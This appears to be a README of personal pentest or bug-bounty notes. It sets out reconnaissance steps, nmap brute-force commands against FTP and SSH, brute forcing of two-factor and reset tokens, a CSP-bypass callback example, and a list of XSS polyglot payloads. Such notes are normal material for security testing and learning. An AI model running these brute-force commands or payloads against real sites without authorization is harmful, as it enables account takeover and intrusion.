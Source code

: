 A Small Set of Customized Tools for Merry Making

Steps:

* Discovery / Mapping:
  * Linked Resources:
    * Find inscope domains with enum-domains
      * Try to eliminate cloudflare:
        * Use enum-domains `csv` list for non-cloudflair ips
        * historical lookup: http://toolbar.netcraft.com/site_report?url=example.com
        * dig: `dig ANY example.com`
        * get them to send an email & check headers
        * https://rhinosecuritylabs.com/cloud-security/cloudflare-bypassing-cloud-security/
        * Signup & look at email headers for ip
      * Reverse IP lookup: https://github.com/darkoperator/dnsrecon
        * haven't tried ^ yet
    * via: virustotal => `https://virustotal.com/en/domain/<domain>/information/`
      * Observed subdomains
    * via: similarweb
    * Scan subdomains for popular services / plugins
      * curl subdomain, then cat response & grep for service strings
        * eg: facebook, wordpress, surveygizmo, aws, shopify, unbounce, fastly, heroku, github, desk, tumblr
      * Save so that you can go back historically if you find vulns
      * TODO: write that tool
    * nmap scans:
      * Port scan: `nmap -sS -A -PN -p- --script=http-title example.com`
        * `nmap-domains/scan.sh` for going through .lst
      * DNS brute force: `nmap --script=dns* example.com`
      * Host search: `nmap -p 80 --script=hostmap* example.com`
  * Unlinked Resources:
    * `dir-buster` to brute force
      * use seclists to augment:
        * RAFT lists
        * Git digger
        * svn digger
    * Try spidering deeper:
```
acme.com - 200
acme.com/backlog/ - 404
acme.com/controlpanel/ - 401 <-- dig deeper
acme.com/controlpanel/[bruteforce here now]
```
  * Tech stack -- check for CVEs against results here:
    * Wappalyzer (chrome)
    * Builtwith (chrome)
    * [retire.js](https://retirejs.github.io/retire.js/)
  * Custom engines
    * [WPScan](https://wpscan.org/)
      * plugins are more insecure than the platform!
    * [CMSmap](https://github.com/Dionach/CMSmap)
  * OSINT:
    * Use past flaws to pivot into new flaws
      * xssed.com
      * reddit xss
      * punkspider
      * xss.cx
      * xssposed.org
      * twitter search
  * SWFs search:
    * Google dorks: `site:url.com ext:swf`
  * Login w/ Facebook connect
    * look for `redirect_uri` & open redirects
      * Links to learn, I don't understand open redirect:
        * want to get tokens / access tokens
        * http://homakov.blogspot.se/2013/02/hacking-facebook-with-oauth2-and-chrome.html 
        * http://www.breaksec.com/?p=6039 Facebook Connect
  * 3rd Party Scripts
    * look for url downloads in scripts
      * are there url query parameters used in scripts?
    * `(get)?(query|url|qs|hash)param`
    * `location\.(hash|href|search)\.match`
    * bypass Content Security Policy
      * Look at CSP domains, use those as attack vector
      * eg: `<script src="mixpanel.com?callback=alert(1)">`

# Attacking Services:

### FTP:

* FTP-Brute: `nmap --script=ftp* -p 21 target.com`

### SSH:

* SSH-Brute: `nmap --script=ssh* -p 22 target.com`

### SMTP:

* Enum users: `nmap –script=smtp-enum-users target.com`
* http://pentestmonkey.net/tools/user-enumeration/smtp-user-enum

### EPMD (aka rabbbitmq):

* `nmap -p 4369 --script epmd-info <target>`

# Attacking Websites

### User Enumeration / Authentication

* Try to chain attacks in auth:
  * reset password + brute force tokens
* Timing Attack: Try to register / reset password / etc
  * Time how long it takes for known success vs known failed
  * Ref: http://cwe.mitre.org/data/definitions/208

### Brute Force

* TFA backup codes
* TFA codes
* Password reset tokens

### XSS

* polyglot payloads:
  * `<PLAINTEXT>`
  * `"><img src=x onerror=confirm(1);>`
  * ``jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e`
  * `';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>`
  * `'">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http://i.imgur.com/P8mL8.jpg">`
* 3rd party vectors:
  * facebook login, google login, etc.
* dynamic anchor tags in url: `http://example.com#<xss-here>`
* in redirects
* js embedded in swf
* XSS'd username + password reset

# Tools to investigate

* https://intrigue.io/
